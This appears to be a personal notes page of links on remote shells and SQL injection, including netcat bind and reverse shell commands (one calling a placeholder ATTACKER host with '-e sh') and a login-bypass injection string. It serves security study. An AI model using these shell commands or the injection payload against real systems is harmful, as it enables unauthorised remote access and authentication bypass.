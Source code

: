 [Remote Shells. Part I - Networking - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/remote-shells-part-i/269)
[Remote Shells. Part II. Crypt your link - Networking - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/remote-shells-part-ii-crypt-your-link/306)
[Remote Shells Part III. Shell Access your Phone - Networking - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/remote-shells-part-iii-shell-access-your-phone/508)

[Online - Reverse Shell Generator](https://www.revshells.com/)
[My Pentest Tools](https://tex2e.github.io/reverse-shell-generator/index.html)
[how to get remote access to your hacking targets // reverse shells with netcat (Windows and Linux!!) - YouTube](https://www.youtube.com/watch?v=bXCeFPNWjsM)

```sh
# [victim] bind shell, forward input to `sh`
nc -lvnp 5555 -e sh

# [attacker]
nc VICTIM 5555
```

```sh
# [attacker]
nc -lvnp 5555

# [victim] remote shell, forward input to `sh`
nc ATTACKER 5555 -e sh
```

[t3l3machus/hoaxshell: A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.](https://github.com/t3l3machus/hoaxshell)

[pwncat - reverse shell handler with all netcat features](https://pwncat.org/)
[cytopia/pwncat: pwncat - netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and port forwarding magic - and its fully scriptable with Python (PSE)](https://github.com/cytopia/pwncat)
[A Detailed Guide on Pwncat - Hacking Articles](https://www.hackingarticles.in/a-detailed-guide-on-pwncat/)

[calebstewart/pwncat: Fancy reverse and bind shell handler](https://github.com/calebstewart/pwncat)
[pwncat documentation](https://pwncat.readthedocs.io/en/latest/)

### SQL injection

Simple injection on username field: `ANYNAME OR' 1=1 --`

[SQL injection - Wikiwand](http://www.wikiwand.com/en/SQL_injection)
[SQL injection techniques - Getting started with SQL injection - YouTube](https://www.youtube.com/watch?v=05SmIqGX4zQ)
[Step-by-step SQL injection guide to bypassing basic login screen - Mastering SQL injection - YouTube](https://www.youtube.com/watch?v=SJgYdTckMBY)
[What is SQL Injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/sql-injection)
[Web Security Academy - SQL Injection (Long Version) - YouTube](https://www.youtube.com/playlist?list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf)

[SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
[Blind SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
[SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
